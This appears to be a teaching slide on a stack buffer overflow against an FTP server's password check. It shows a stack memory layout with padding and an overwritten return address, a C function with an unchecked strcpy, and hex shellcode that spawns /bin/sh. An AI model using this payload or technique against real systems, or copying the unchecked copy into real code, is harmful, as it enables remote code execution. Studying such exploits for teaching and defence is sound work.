

| 00FF2013H: | 56H |
| --- | --- |
| 00FF2012H: | 8DH |
| 00FF2011H: | 08H |
| 00FF2010H: | 4EH |
| 00FF200FH: | 8DH |
| 00FF200EH: | F3H |
| 00FF200DH: | 89H |
| 00FF200CH: | 0BH |
| 00FF200BH: | B0H |
| 00FF200AH: | 0CH |
| 00FF2009H: | 46H |
| 00FF2008H: | 89H |
| 00FF2007H: | 07H |
| 00FF2006H: | 46H |
| 00FF2005H: | 88H |
| 00FF2004H: | C0H |
| 00FF2003H: | 31H |
| 00FF2002H: | 08H |
| 00FF2001H: | 76H |
| 00FF1FFFH: | 89H |
| 00FF1FFEH: | 5EH |
| 00FF1FFDH: | 1FH |
| 00FF1FFCH: | EBH |
| 00FF1FFBH: | 00H |
| 00FF1FFAH: | FFH |
| 00FF1FF9H: | 1FH |
| 00FF1FF8H: | FCH |
| 00FF1FF7H: | ‘A’ |
| 00FF1FF6H: | ‘A’ |
| 00FF1FF5H: | ‘A’ |
| 00FF1FF4H: | ‘A’ |
| 00FF1FF3H: | ‘A’ |
| 00FF1FF2H: | ‘A’ |
| 00FF1FF1H: | ‘A’ |
| 00FF1FF0H: | ‘A’ |
| 00FF1FEFH: | ‘A’ |
| 00FF1FEEH: | ‘A’ |
| 00FF1FEDH: | ‘A’ |
| 00FF1FECH: | ‘A’ |
| 00FF1FEBH: | f1 |
| 00FF1FEAH: | f1 |
| 00FF1FE9H: | f1 |
| 00FF1FE8H: | f1 |
| 00FF1FE7H: | f2 |
| 00FF1FE6H: | f2 |
| 00FF1FE5H | f2 |
| 00FF1FE4H: | f2 |
FTP Server Under Attack

verify(*password)
{
  char buffer[8];
  int f1, f2;
  strcpy(buffer[8],password);
Return Address
( 00FF1FFCH )
Shell Code ( In Hex )
EB, 1F, 5E, 89, 76, 08, 31, C0,
88, 46, 07, 89, 46, 0C, B0, 0B,
89, F3, 8D, 4E, 08, 8D, 56, 0C,
CD, 80, 31, DB, 89, D8, 40, CD,
80, E8, DC, FF, FF, FF, 2F, 62,
69, 6E, 2F, 73, 68, 00